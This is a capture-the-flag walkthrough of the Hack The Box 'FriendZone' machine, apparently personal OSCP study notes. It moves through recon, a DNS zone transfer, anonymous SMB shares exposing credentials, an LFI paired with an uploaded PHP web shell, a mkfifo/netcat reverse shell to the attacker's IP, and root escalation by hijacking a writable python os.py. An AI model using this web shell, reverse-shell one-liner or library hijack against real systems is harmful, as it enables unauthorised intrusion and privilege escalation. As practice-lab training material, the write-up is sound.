

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/friendzone-easy
---

# ✅ FriendZone (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Misconfigure on Share and LFI

**System Vulnerable:** 10.10.10.123

**Vulnerability Explanation:** The machine is misconfigured on Share which could allow us connect without password and write permission allow us to upload reverse shell. The application is vulnerable to LFI which could allow us to execute our payload and gain access on machine.

**Privilege Escalation Vulnerability:** Misconfigure of Privilege user

**Vulnerability Fix:** Restrict guess user and allow only authorizer user to access and Least Privilege

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.123 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-15 11:00 EST
Nmap scan report for 10.10.10.123
Host is up (0.046s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2021-11-15T18:01:33+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-11-15T16:01:33
|_  start_date: N/A
```

## Enumeration

### Port 80 Apache/2.4.29

First thing first, I will go through webpage first. It just displays a webpage and view the source code we found email with the domain name **friendzoneportal.red**.&#x20;

.png>)

.png>)

Let use gobuster to find hidden directory. We didn't see any interesting there.

```
└─$ gobuster dir -u http://10.10.10.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.123
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/15 11:07:03 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.123/wordpress/]
/server-status        (Status: 403) [Size: 300]                                     
                                                                                    
===============================================================
2021/11/15 11:10:31 Finished
===============================================================
```

### Port 443 Apache/2.4.29

Nothing is there. It just displays a web page show **Not Found**.

.png>)

### Port 53 domain

As we found there domain name **friendzoneportal.red** on the webpage and **friendzone.red** on nmap scan, let enumerate the DNS with zone transfer whether we can find more sub domain.

We can enumerate the zone transfer with **host** and **dig** command.

```
└─$ host -l friendzone.red 10.10.10.123                                                                                                                                                   1 ⨯
Using domain server:
Name: 10.10.10.123
Address: 10.10.10.123#53
Aliases: 

friendzone.red has IPv6 address ::1
friendzone.red name server localhost.
friendzone.red has address 127.0.0.1
administrator1.friendzone.red has address 127.0.0.1
hr.friendzone.red has address 127.0.0.1
uploads.friendzone.red has address 127.0.0.1

└─$ host -l friendzoneportal.red 10.10.10.123
Using domain server:
Name: 10.10.10.123
Address: 10.10.10.123#53
Aliases: 

friendzoneportal.red has IPv6 address ::1
friendzoneportal.red name server localhost.
friendzoneportal.red has address 127.0.0.1
admin.friendzoneportal.red has address 127.0.0.1
files.friendzoneportal.red has address 127.0.0.1
imports.friendzoneportal.red has address 127.0.0.1
vpn.friendzoneportal.red has address 127.0.0.1
```

```
└─$ dig axfr friendzone.red @10.10.10.123

; <<>> DiG 9.16.15-Debian <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 48 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Mon Nov 15 11:17:33 EST 2021
;; XFR size: 8 records (messages 1, bytes 289)

└─$ dig axfr friendzoneportal.red @10.10.10.123

; <<>> DiG 9.16.15-Debian <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 48 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Mon Nov 15 11:17:46 EST 2021
;; XFR size: 9 records (messages 1, bytes 309)
```

To view easily, let summary all the subdomain that we have found and add all of them in our hosts.

```
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
friendzoneportal.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
friendzone.red
```

We need to get back to access all of those subdomains via webpage. We can check on HTTPS because on HTTP, it will return the same web page.

Let just briefly what we found below,

1/ **admin.friendzoneportal.red** and **administrator1.friendzone.red** are login page.

2/ **uploads.friendzone.red** file upload.

3/ **friendzone.red/js/js** interesting to check out.

### Port 139, 445 Samba

Let check the permission on the shares drive, as it allows guess login and have **Read, Write** permission on **Development** folder.

```
└─$ smbmap -H 10.10.10.123   
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```

As we can see, there is a creds.txt file stored under /general folder.

```
└─$ smbmap -R -H 10.10.10.123                                                                                                                                                             1 ⨯
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        .\general\*
        dr--r--r--                0 Wed Jan 16 15:10:51 2019    .
        dr--r--r--                0 Wed Jan 23 16:51:02 2019    ..
        fr--r--r--               57 Tue Oct  9 19:52:42 2018    creds.txt
        Development                                             READ, WRITE     FriendZone Samba Server Files
        .\Development\*
        dr--r--r--                0 Mon Nov 15 11:46:07 2021    .
        dr--r--r--                0 Wed Jan 23 16:51:02 2019    ..
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
        
        -R options for Recursively list dirs, and files
```

Let connect and download the creds.txt file from /general folder.

```
└─$ smbclient //10.10.10.123/general    
Enter WORKGROUP\pwned's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Wed Jan 23 16:51:02 2019
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                9221460 blocks of size 1024. 6438992 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec
```

```
└─$ cat creds.txt               
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Let login with the credential we found. It's working on **administrator1.friendzone.red**.

.png>)

.png>)

## Exploitation

### LFI

Let upload a simple php file for testing if it works.

```
└─$ cat test.php                                                                                                                                                                    130 ⨯ 1 ⚙
<?php
echo("Testing");
?>
```

```
└─$ smbclient //10.10.10.123/Development -N                                                                                                                                               1 ⚙
Try "help" to get a list of possible commands.
smb: \> put test.php
putting file test.php as \test.php (0.2 kb/s) (average 0.2 kb/s)
```

If we mention **test.php**, it doesn't display the text. If we mention only **test**, it will work.

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test
```

.png>)

Let upload php command execution.

```
<?php system($_REQUEST['cmd']); ?>
```

```
└─$ smbclient //10.10.10.123/Development -N                                                                                                                                               1 ⚙
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> dir
  .                                   D        0  Fri Nov 19 09:37:59 2021
  ..                                  D        0  Wed Jan 23 16:51:02 2019
  test.php                            A       26  Fri Nov 19 09:20:23 2021
  shell.php                           A       35  Fri Nov 19 09:37:59 2021

                9221460 blocks of size 1024. 6460328 blocks available
```

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell&cmd=id
```

.png>)

Let start our netcat listener on port 5555 and execute reverse shell to our machine.

```
nc -lvp 5555
```

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.31%205555%20%3E/tmp/f
```

.png>)

## Privilege Escalation

### Priv-Esc to Friend

on the machine, we found **mysql\_data.conf** stored credentials.

```
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

```
www-data@FriendZone:/var/www$ su friend 
Password: 
friend@FriendZone:/var/www$ whoami 
friend 
friend@FriendZone:/var/www$ id 
uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

### Priv-Esc to root

### Auto script python

let start our HTTP server to share file pspy for process enumerate.

```
python -m SimpleHTTPServer 80
```

```
wget 10.10.14.31/pspy32
chmod +x pspy32
./pspy32
```

After waiting for sometimes, we found that file **reporter.py** running as schedule.

.png>)

```
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

As the python script will **import os** module, there is misconfigure of privilege user on **os.py.**

```
www-data@FriendZone:/tmp$ locate os.py   
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
```

We can download script os.py from our victim machine and inject python reverse shell at the end of the script, then paste it back to our victim to replace the existing file.

.png>)

